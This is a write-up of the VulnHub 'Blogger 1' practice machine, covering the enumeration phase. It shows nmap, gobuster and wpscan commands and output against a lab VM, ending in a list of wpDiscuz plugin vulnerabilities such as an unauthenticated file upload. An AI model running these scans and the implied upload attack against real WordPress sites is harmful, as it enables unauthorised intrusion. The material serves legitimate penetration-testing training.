








### [VulnHub - Machine Information Page](https://www.vulnhub.com/entry/blogger-1,675/)

### [YouTube - Blogger: Blogger 1 || VulnHub Complete walkthrough](https://www.youtube.com/watch?v=uTQqqYEmR2g)

---

### About Release
- **Name**: blogger: 1
- **Date release**: 4 Apr 2021
- **Author**: [TheHackersBrain](https://www.vulnhub.com/author/thehackersbrain,789/)
- **Series**: [blogger](https://www.vulnhub.com/series/blogger,462/)

### Download
Please remember that VulnHub is a free community resource so we are unable to check the machines that are provided to us. Before you download, please read our FAQs sections dealing with the dangers of running unknown VMs and our suggestions for “protecting yourself and your network. If you understand the risks, please download!

- **blogger.ova** (Size: 762 MB)
- **Download (Mirror)**: [https://download.vulnhub.com/blogger/blogger.ova](https://download.vulnhub.com/blogger/blogger.ova)

### Description
James M Brunner, A Web Developer has recently created a blog website. He hired you to test the Security of his Blog Website. Hack Your Way In Mr. Robot Style :)
Add blogger.thm to /etc/hosts file
Difficulty: Beginner, Easy
This works better with VirtualBox rather than VMware. Note, you may need to remove the console log in "serial settings" for this to start up (due to vagrant)

### File Information
- **Filename**: blogger.ova
- **File size**: 762 MB
- **MD5**: 9F69F447D8812E0E01104CA47A9B243B
- **SHA1**: BB22A3A5577A26DB969B415F84701B143A27D4CC
### Virtual Machine
- **Format**: Virtual Machine (Virtualbox - OVA)
- **Operating System**: Linux

### Networking
- **DHCP service**: Enabled
- **IP address**: Automatically assign


---


# Installation 🔌💻🖥️🛜💾🔌

This is an `.ova` file, just import it inside VirtualBox


VM Name: Blogger  

RawFile#0 failed to create the raw output file \home\elliot\projects\vuln_iso\blogger\box\ubuntu-xenial-16.04-cloudimg-console.log (VERR_PATH_NOT_FOUND).

|   |   |
|---|---|
|Result Code:|E_FAIL (0x80004005)|
|Component:|ConsoleWrap|
|Interface:|IConsole {6ac83d89-6ee7-4e33-8ae6-b257b2e81be8}|

convert the .ova to .zip and then extract with WinRAR or 7Zip, then create a NEW machine and add the harddrives (vmdk) from the extracted files.

```powershell
REN blogger.ova blogger.zip
```





---
---

# Enumeration

## netdiscover & nmap


```bash
# sudo netdiscover -i eth1
# sudo netdiscover -i eth1 -r 192.168.56.0/24
 Currently scanning: Finished!   |   Screen View: Unique Hosts                                                                       
                                                                                                                                     
 3 Captured ARP Req/Rep packets, from 3 hosts.   Total size: 180                                                                     
 _____________________________________________________________________________
   IP            At MAC Address     Count     Len  MAC Vendor / Hostname      
 -----------------------------------------------------------------------------
 192.168.56.1    0a:00:27:00:00:0b      1      60  Unknown vendor                                                                    
 192.168.56.2    08:00:27:f2:3f:89      1      60  PCS Systemtechnik GmbH                                                            
 192.168.56.38   08:00:27:bb:25:0e      1      60  PCS Systemtechnik GmbH 


# nmap -sC -sV 192.168.56.38 
# nmap -sC -sV 192.168.56.38 -p-
┌──(kali㉿kali)-[~]
└─$ nmap -sC -sV 192.168.56.38 -p-   
Starting Nmap 7.95 ( https://nmap.org ) at 2025-11-25 21:12 CET
Nmap scan report for 192.168.56.38
Host is up (0.00030s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 95:1d:82:8f:5e:de:9a:00:a8:07:39:bd:ac:ad:d3:44 (RSA)
|   256 d7:b4:52:a2:c8:fa:b7:0e:d1:a8:d0:70:cd:6b:36:90 (ECDSA)
|_  256 df:f2:4f:77:33:44:d5:93:d7:79:17:45:5a:a1:36:8b (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Blogger | Home
|_http-server-header: Apache/2.4.18 (Ubuntu)
MAC Address: 08:00:27:BB:25:0E (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 24.53 seconds

```

We can confirm that the following ports are available
- 22/TCP - SSH - ??
- 80/TCP - HTTP - ??


### Wappalyzer




## GoBuster

```bash
# gobuster dir -u http://192.168.56.38/ -w /usr/share/wordlists/dirb/common.txt  
┌──(kali㉿kali)-[~]
└─$ gobuster dir -u http://192.168.56.38 -w /usr/share/wordlists/dirb/common.txt 
===============================================================
Gobuster v3.8
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.56.38
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 278]
/.htpasswd            (Status: 403) [Size: 278]
/.htaccess            (Status: 403) [Size: 278]
/assets               (Status: 301) [Size: 315] [--> http://192.168.56.38/assets/]
/css                  (Status: 301) [Size: 312] [--> http://192.168.56.38/css/]
/images               (Status: 301) [Size: 315] [--> http://192.168.56.38/images/]
/index.html           (Status: 200) [Size: 46199]
/js                   (Status: 301) [Size: 311] [--> http://192.168.56.38/js/]
/server-status        (Status: 403) [Size: 278]
Progress: 4613 / 4613 (100.00%)
===============================================================
Finished
===============================================================


# gobuster dir -u http://192.168.56.38/secret -w /usr/share/wordlists/dirb/common.txt -x txt,php,html
┌──(kali㉿kali)-[~]
└─$ gobuster dir -u http://192.168.56.38/ -w /usr/share/wordlists/dirb/common.txt -x txt,php,html
===============================================================
Gobuster v3.8
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.56.38/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8
[+] Extensions:              txt,php,html
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.hta.php             (Status: 403) [Size: 278]
/.htaccess            (Status: 403) [Size: 278]
/.htaccess.txt        (Status: 403) [Size: 278]
/.hta.html            (Status: 403) [Size: 278]
/.hta.txt             (Status: 403) [Size: 278]
/.htaccess.html       (Status: 403) [Size: 278]
/.htpasswd            (Status: 403) [Size: 278]
/.htpasswd.php        (Status: 403) [Size: 278]
/.htpasswd.txt        (Status: 403) [Size: 278]
/.hta                 (Status: 403) [Size: 278]
/.htaccess.php        (Status: 403) [Size: 278]
/.htpasswd.html       (Status: 403) [Size: 278]
/assets               (Status: 301) [Size: 315] [--> http://192.168.56.38/assets/]
/css                  (Status: 301) [Size: 312] [--> http://192.168.56.38/css/]
/images               (Status: 301) [Size: 315] [--> http://192.168.56.38/images/]
/index.html           (Status: 200) [Size: 46199]
/index.html           (Status: 200) [Size: 46199]
/js                   (Status: 301) [Size: 311] [--> http://192.168.56.38/js/]
/server-status        (Status: 403) [Size: 278]
Progress: 18452 / 18452 (100.00%)
===============================================================
Finished
===============================================================

```

anyway, if you go /assets/fonts/blogs/ we get go a more basic web page



If we check the the wappalyzer again, there is a different tech-stack, like wordpress


http://192.168.56.38/assets/fonts/blog/

We can use the preinstalled tool called `WPscanner`

```bash
# wpscan --url http://192.168.56.38/assets/fonts/blog/
┌──(kali㉿kali)-[~]
└─$ wpscan --url http://192.168.56.38/assets/fonts/blog/
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.28
                               
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[i] Updating the Database ...
[i] Update completed.

[+] URL: http://192.168.56.38/assets/fonts/blog/ [192.168.56.38]
[+] Started: Tue Nov 25 22:06:11 2025

Interesting Finding(s):

[+] Headers
 | Interesting Entry: Server: Apache/2.4.18 (Ubuntu)
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://192.168.56.38/assets/fonts/blog/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/

[+] WordPress readme found: http://192.168.56.38/assets/fonts/blog/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] Upload directory has listing enabled: http://192.168.56.38/assets/fonts/blog/wp-content/uploads/
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: http://192.168.56.38/assets/fonts/blog/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 4.9.8 identified (Insecure, released on 2018-08-02).
 | Found By: Emoji Settings (Passive Detection)
 |  - http://192.168.56.38/assets/fonts/blog/, Match: 'wp-includes\/js\/wp-emoji-release.min.js?ver=4.9.8'
 | Confirmed By: Meta Generator (Passive Detection)
 |  - http://192.168.56.38/assets/fonts/blog/, Match: 'WordPress 4.9.8'

[i] The main theme could not be detected.

[+] Enumerating All Plugins (via Passive Methods)

[i] No plugins Found.

[+] Enumerating Config Backups (via Passive and Aggressive Methods)
 Checking Config Backups - Time: 00:00:00 <=======================================================> (137 / 137) 100.00% Time: 00:00:00

[i] No Config Backups Found.

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Tue Nov 25 22:06:13 2025
[+] Requests Done: 180
[+] Cached Requests: 4
[+] Data Sent: 48.927 KB
[+] Data Received: 22.642 MB
[+] Memory used: 237.633 MB
[+] Elapsed time: 00:00:02
                                                                                                                                      
┌──(kali㉿k

```

```bash
# All plugins
┌──(kali㉿kali)-[~]
└─$ wpscan --url http://192.168.56.38/assets/fonts/blog/ -e ap
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.28
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[+] URL: http://192.168.56.38/assets/fonts/blog/ [192.168.56.38]
[+] Started: Tue Nov 25 22:08:53 2025

Interesting Finding(s):

[+] Headers
 | Interesting Entry: Server: Apache/2.4.18 (Ubuntu)
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://192.168.56.38/assets/fonts/blog/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/

[+] WordPress readme found: http://192.168.56.38/assets/fonts/blog/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] Upload directory has listing enabled: http://192.168.56.38/assets/fonts/blog/wp-content/uploads/
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: http://192.168.56.38/assets/fonts/blog/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 4.9.8 identified (Insecure, released on 2018-08-02).
 | Found By: Emoji Settings (Passive Detection)
 |  - http://192.168.56.38/assets/fonts/blog/, Match: 'wp-includes\/js\/wp-emoji-release.min.js?ver=4.9.8'
 | Confirmed By: Meta Generator (Passive Detection)
 |  - http://192.168.56.38/assets/fonts/blog/, Match: 'WordPress 4.9.8'

[i] The main theme could not be detected.

[+] Enumerating All Plugins (via Passive Methods)

[i] No plugins Found.

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Tue Nov 25 22:08:54 2025
[+] Requests Done: 2
[+] Cached Requests: 27
[+] Data Sent: 674 B
[+] Data Received: 1.028 KB
[+] Memory used: 226.918 MB
[+] Elapsed time: 00:00:01
                                                                                                                                      
┌──(kali㉿kali)-[~]
└─$ 
```

```bash
# plugins-detection aggressive
┌──(kali㉿kali)-[~]
└─$ wpscan --url http://192.168.56.38/assets/fonts/blog/ -e ap --plugins-detection aggressive
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.28
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[+] URL: http://192.168.56.38/assets/fonts/blog/ [192.168.56.38]
[+] Started: Tue Nov 25 22:11:37 2025

Interesting Finding(s):

[+] Headers
 | Interesting Entry: Server: Apache/2.4.18 (Ubuntu)
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://192.168.56.38/assets/fonts/blog/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/

[+] WordPress readme found: http://192.168.56.38/assets/fonts/blog/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] Upload directory has listing enabled: http://192.168.56.38/assets/fonts/blog/wp-content/uploads/
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: http://192.168.56.38/assets/fonts/blog/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 4.9.8 identified (Insecure, released on 2018-08-02).
 | Found By: Emoji Settings (Passive Detection)
 |  - http://192.168.56.38/assets/fonts/blog/, Match: 'wp-includes\/js\/wp-emoji-release.min.js?ver=4.9.8'
 | Confirmed By: Meta Generator (Passive Detection)
 |  - http://192.168.56.38/assets/fonts/blog/, Match: 'WordPress 4.9.8'

[i] The main theme could not be detected.

[+] Enumerating All Plugins (via Aggressive Methods)
 Checking Known Locations - Time: 00:03:05 <====================================================> (114463 / 114463) 100.00% Time: 00:03:05
[+] Checking Plugin Versions (via Passive and Aggressive Methods)

[i] Plugin(s) Identified:

[+] akismet
 | Location: http://192.168.56.38/assets/fonts/blog/wp-content/plugins/akismet/
 | Last Updated: 2025-11-12T16:31:00.000Z
 | Readme: http://192.168.56.38/assets/fonts/blog/wp-content/plugins/akismet/readme.txt
 | [!] The version is out of date, the latest version is 5.6
 |
 | Found By: Known Locations (Aggressive Detection)
 |  - http://192.168.56.38/assets/fonts/blog/wp-content/plugins/akismet/, status: 200
 |
 | Version: 4.0.8 (100% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://192.168.56.38/assets/fonts/blog/wp-content/plugins/akismet/readme.txt
 | Confirmed By: Readme - ChangeLog Section (Aggressive Detection)
 |  - http://192.168.56.38/assets/fonts/blog/wp-content/plugins/akismet/readme.txt

[+] wpdiscuz
 | Location: http://192.168.56.38/assets/fonts/blog/wp-content/plugins/wpdiscuz/
 | Last Updated: 2025-11-24T17:59:00.000Z
 | Readme: http://192.168.56.38/assets/fonts/blog/wp-content/plugins/wpdiscuz/readme.txt
 | [!] The version is out of date, the latest version is 7.6.38
 |
 | Found By: Known Locations (Aggressive Detection)
 |  - http://192.168.56.38/assets/fonts/blog/wp-content/plugins/wpdiscuz/, status: 200
 |
 | Version: 7.0.4 (80% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://192.168.56.38/assets/fonts/blog/wp-content/plugins/wpdiscuz/readme.txt

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Tue Nov 25 22:14:52 2025
[+] Requests Done: 114473
[+] Cached Requests: 32
[+] Data Sent: 34.459 MB
[+] Data Received: 15.376 MB
[+] Memory used: 435.254 MB
[+] Elapsed time: 00:03:15
                                                                                                                                          
┌──(kali㉿kali)-[~]
└─$ 

```

### *To be continued* register for 25 free API vulnerability scans or maybe skip that part

https://wpscan/register/

Honestly I am not in the mood for yet another registration for an API key... In this case we just pretend and see the findings from the YouTube Tutorial.

``` bash 
# plugins-detection aggressive
┌──(kali㉿kali)-[~]
└─$ wpscan --url http://192.168.56.38/assets/fonts/blog/ -e ap --plugins-detection aggressive --api-token <YOUR API TOKEN FROM REGISTRATION>
# Will show results in deeper details and 16 new vulnerabilities...
``` 



```bash
[!] 16 vulnerabilities identified:
 |
 | [!] Title: Comments - wpDiscuz 7.0.0 - 7.0.4 - Unauthenticated Arbitrary File Upload
 |     Fixed in: 7.0.5
 |     References:
 |      - https://wpscan.com/vulnerability/92ae2765-dac8-49dc-a361-99c799573e61
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-24186
 |      - https://www.wordfence.com/blog/2020/07/critical-arbitrary-file-upload-vulnerability-patched-in-wpdiscuz-plugin/
 |      - https://plugins.trac.wordpress.org/changeset/2345429/wpdiscuz
 |
 | [!] Title: Comments - wpDiscuz < 7.3.2 - Admin+ Stored Cross-Site Scripting
 |     Fixed in: 7.3.2
 |     References:
 |      - https://wpscan.com/vulnerability/f51a350c-c46d-4d52-b787-762283625d0b
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-24737
 |
 | [!] Title: wpDiscuz < 7.3.4 - Arbitrary Comment Addition/Edition/Deletion via CSRF
 |     Fixed in: 7.3.4
 |     References:
 |      - https://wpscan.com/vulnerability/2746101e-e993-42b9-bd6f-dfd5544fa3fe
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-24806
 |      - https://www.youtube.com/watch?v=CL7Bttu2W-o
 |
 | [!] Title: wpDiscuz < 7.3.12 - Sensitive Information Disclosure
 |     Fixed in: 7.3.12
 |     References:
 |      - https://wpscan.com/vulnerability/027e6ef8-39d8-4fa9-957f-f53ee7175c0a
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-23984
 |
 | [!] Title: wpDiscuz < 7.6.4 - Unauthenticated Data Modification via IDOR
 |     Fixed in: 7.6.4
 |     References:
 |      - https://wpscan.com/vulnerability/d7de195a-a932-43dd-bbb4-784a19324b04
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-3869
 |
 | [!] Title: wpDiscuz < 7.6.4 - Post Rating Increase/Decrease iva IDOR
 |     Fixed in: 7.6.4
 |     References:
 |      - https://wpscan.com/vulnerability/051ab8b8-210e-48ac-82e7-7c4a0aa2ecd5
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-3998
 |
 | [!] Title: wpDiscuz < 7.6.12 - Unauthenticated Stored XSS
 |     Fixed in: 7.6.12
 |     References:
 |      - https://wpscan.com/vulnerability/f061ffa4-25f2-4ad5-9edb-6cb2c7b678d1
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-47185
 |
 | [!] Title: wpDiscuz < 7.6.6 - Unauthenticated SQL Injection
 |     Fixed in: 7.6.6
 |     Reference: https://wpscan.com/vulnerability/ebb5ed9a-4fb2-4d64-a8f2-6957878a4599
 |
 | [!] Title: wpDiscuz < 7.6.4 - Author+ IDOR
 |     Fixed in: 7.6.4
 |     References:
 |      - https://wpscan.com/vulnerability/d5e677ef-786f-4921-97d9-cbf0c2e21df9
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-46311
 |
 | [!] Title: wpDiscuz < 7.6.11 - Unauthenticated Content Injection
 |     Fixed in: 7.6.11
 |     References:
 |      - https://wpscan.com/vulnerability/8c8cabee-285a-408f-9449-7bb545c07cdc
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-46310
 |
 | [!] Title: wpDiscuz < 7.6.11 - Insufficient Authorization to Comment Submission on Deleted Posts
 |     Fixed in: 7.6.11
 |     References:
 |      - https://wpscan.com/vulnerability/874679f2-bf44-4c11-bc3b-69ae5ac59ced
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-46309
 |
 | [!] Title: wpDiscuz < 7.6.12 - Missing Authorization in AJAX Actions
 |     Fixed in: 7.6.12
 |     References:
